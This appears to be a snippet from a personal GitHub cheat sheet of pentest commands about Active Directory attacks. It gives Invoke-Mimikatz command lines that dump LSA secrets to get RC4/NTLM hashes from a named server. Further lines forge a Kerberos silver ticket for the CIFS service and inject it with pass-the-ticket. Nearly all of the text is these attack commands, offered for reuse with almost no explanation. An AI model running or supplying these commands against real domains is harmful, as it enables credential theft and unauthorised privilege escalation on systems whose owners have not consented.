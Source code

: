 ## 
- First Enumeratee !!
- Once everything is done


```
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -ComputerName prod.research.security.local (To get RC4(Hash Ntlm) 
```
- Then Forge silver ticket and directly perform pass the ticket attack
```
Invoke-Mimikatz -Command '"kerberos::golden /user:administrator /domain:research.security.local /target:prod.research.security.local /SID:domainSID /service:someservice(CIFS in this particular case) /rc4:hashdumpedintheformofrc4 /ptt"'
```



![image](https://github.com/Luminous-split/LifeLongCommands/assets/116489011/a1311993-81fe-47d6-a85d-257eab2762bb)

